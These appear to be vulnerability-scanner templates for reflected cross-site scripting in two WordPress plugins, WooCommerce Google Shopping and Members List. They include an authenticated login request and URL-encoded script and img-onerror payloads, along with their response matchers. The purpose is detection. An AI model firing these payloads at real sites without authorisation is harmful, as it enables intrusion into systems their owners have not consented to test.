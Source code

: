 # WordPress WooCommerce Google Shopping \< 1.2.4 - Cross-Site Scripting
## Description
- WordPress WooCommerce Google Shopping \< 1.2.4 is susceptible to cross-site scripting because the plugin does not sanitize or escape the search GET parameter before outputting it back in the page and executing it in a logged in admin context.
- severity - high
- tags - wp-plugin,xss,authenticated,woocommerce,wpscan,wordpress
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/admin.php?page=elex-product-feed-manage&search=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. \</script>\<script>alert(document.domain)\</script>

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress Members List \<4.3.7 - Cross-Site Scripting
## Description
- WordPress Members List 4.3.7 does not sanitize and escape some parameters in various pages before outputting them back, leading to reflected cross-site scripting vulnerabilities.
- severity - medium
- tags - wp,wordpress,wp-plugin,xss,wpscan
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/members-list/admin/view/user.php?page=%22%3E%3Cimg%20src%20onerror=alert(document.domain)%20x